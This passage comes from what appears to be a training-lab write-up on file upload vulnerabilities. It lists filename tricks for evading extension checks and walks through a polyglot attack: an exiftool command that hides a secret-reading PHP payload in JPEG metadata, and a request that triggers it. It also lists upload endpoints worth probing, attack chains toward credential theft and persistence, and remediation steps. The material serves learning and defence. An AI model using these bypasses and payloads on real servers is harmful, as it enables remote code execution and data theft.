- Submit the secret
- Lab marked as solved

---

## Evidence

### Screenshot 1 — PHP Shell Upload via Null Byte & Double Extension



---

### Screenshot 2 — Carlos Secret Retrieved via exploit.php Execution



---

## 6️⃣ Real-World Scenarios

### Case Sensitivity Confusion

shell.pHp

- Validator: misses .php
- Server: executes as PHP

---

### Multiple Extensions

shell.php.jpg

- Validator checks last extension
- Server executes first executable extension

---

### Trailing Dot / Space

shell.php. shell.php␠

- Validator: not .php
- Filesystem trims → .php

---

### URL Encoding Mismatch

shell%2Ephp

- Validator checks raw
- Server decodes → .php

---

### Double URL Encoding

shell%252Ephp

- Validator decodes once
- Server decodes twice

---

## 7️⃣ High-Value Endpoints to Test
```
- /upload
- /avatar
- /profile/photo
- /media
- /files
- /assets
- /api/upload
- /import
- /backup/restore
```
---

## 8️⃣ Impact

- Remote Code Execution
- Full application compromise
- Database access
- Credential theft

*Severity: CRITICAL*

---

## 9️⃣ Why Blacklists Always Fail

- Infinite encodings
- Infinite extensions
- Infinite parsing paths

> You cannot blacklist creativity.

---

## 🔟 Proper Remediation

- Use strict allowlists
- Validate magic bytes
- Rename files server-side
- Store uploads outside web root
- Disable execution in upload directories
- Normalize input before validation

---

## ✅ Final Takeaway

> If file parsing is inconsistent, upload restrictions are meaningless.


---

# ✅Lab-6 File Upload Vulnerabilities – Flawed Validation of File Contents (Polyglot Attack)

---

## 1. Overview

File upload vulnerabilities occur when a web application allows users to upload files that are later processed or executed by the server.

In this lab, the application validates **file contents** instead of relying only on file extension or MIME type.  
Although this is stronger than basic validation, it is still **bypassable**.

The server:
- Confirms the uploaded file is a valid image
- Later executes it as PHP

This results in **Remote Code Execution (RCE)** using a **polyglot file**.

---

## 2. What Is This Topic About?

**Core concept:**

> Content-based validation is not enough if execution is based on file extension.

The application:
- Checks magic bytes (JPEG headers)
- Accepts the upload if the file looks like a real image

However:
- The web server executes files based on extension
- Image metadata is not sanitized
- PHP code hidden inside metadata is executed

This mismatch creates the vulnerability.

---

## 3. Real-World Scenarios

### Scenario 1 – Avatar Upload → Full Server Takeover
- Profile picture upload allowed
- Polyglot image contains PHP payload
- Stored in web-accessible directory
- Triggered via direct GET request

**Impact:** Remote Code Execution

---

### Scenario 2 – CMS Media Upload Abuse
- CMS validates image content
- PHP payload embedded in EXIF metadata
- File saved as `.php`
- Admin views the image

**Impact:** Persistent backdoor

---

### Scenario 3 – Bug Bounty Critical Finding
- App claims secure image validation
- Execution depends on extension
- Metadata not stripped

**Impact:** Critical severity report

---

### Scenario 4 – Cloud Credential Theft
- Polyglot executes PHP
- Reads `.env` file
- Extracts cloud credentials

**Impact:** Cloud compromise

---

### Scenario 5 – Stealthy Persistence
- Polyglot uploaded once
- Appears as harmless image
- Long-term hidden access

**Impact:** Persistent RCE

---

## 4. Lab Walkthrough

### Step 1 – Prepare PHP Payload

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

---

### Step 2 – Normal Upload Attempt

- Upload a standard `.php` file
- Upload is rejected due to content validation

---

### Step 3 – Create Polyglot Image (Key Step)

Using ExifTool:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" cat.jpg -o polyglot.php
```

This creates:
- A valid JPEG image
- PHP code hidden inside metadata
- Saved with `.php` extension

---

### Step 4 – Upload Polyglot File

- Upload `polyglot.php`
- Server accepts it as a valid image
- File stored in `/files/avatars/`

---

### Step 5 – Trigger Execution

```http
GET /files/avatars/polyglot.php HTTP/1.1
```

- PHP executes
- Carlos secret is revealed

---

## 5. Evidence

### Screenshot 1 – Successful Polyglot Upload



---

### Screenshot 2 – Carlos Secret Revealed via polyglot.php


---

## 6. High-Value Endpoints

- /upload
- /avatar
- /profile-picture
- /media
- /files
- /images
- /assets
- /api/upload
- /admin/upload

---

## 7. Multi-Chain Attack Possibilities

- File Upload → Polyglot → RCE → Read `.env` → DB takeover
- File Upload → RCE → SSH key extraction → Lateral movement
- File Upload → RCE → Cloud credentials → Cloud takeover
- File Upload → RCE → Webshell → Persistence

---

## 8. Remediation

- Disable execution in upload directories
- Rename uploaded files server-side
- Strip metadata from images
- Validate content, extension, and MIME consistently
- Store uploads outside web root
- Serve uploads from a separate domain
- Use strict allowlists

---

## 9. Extra Notes / Tips

- Content validation ≠ execution safety
- Metadata is often ignored
- Polyglots bypass “secure” upload logic
- If `.php` executes → full compromise

---

## 10. One-Line Takeaway

> Even strong content-based validation can be bypassed using polyglot files if execution depends on file extension.
